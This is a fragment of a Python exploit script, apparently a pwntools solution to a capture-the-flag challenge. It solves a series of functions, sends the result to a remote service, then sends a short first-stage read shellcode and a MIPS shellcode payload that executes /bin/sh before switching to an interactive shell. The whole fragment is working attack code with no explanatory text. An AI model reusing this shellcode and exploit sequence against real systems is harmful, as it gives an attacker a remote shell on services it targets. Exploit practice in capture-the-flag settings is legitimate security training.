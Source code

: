 ```python
   for func in reversed(funcs):
       solution += solve_func(func)
 
   print(solution)
 
   r.send(solution)
   r.recvuntil("Name")
   r.send("A")
   sleep(0.5)
   read_shellcode = bytes.fromhex("00 01 06 20 A3 0F 02 24 0C 00 00 00")
   r.send(read_shellcode)
   sleep(0.5)
   shellcode = bytes.fromhex("00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 50 73 06 24 FF FF D0 04 50 73 0F 24 FF FF 06 28 E0 FF BD 27 D7 FF 0F 24 27 78 E0 01 21 20 EF 03 E8 FF A4 AF EC FF A0 AF E8 FF A5 23 AB 0F 02 24 0C 01 01 01 2F 62 69 6E 2F 73 68 00")
   r.send(shellcode)
   r.interactive()
```
 
 
 
 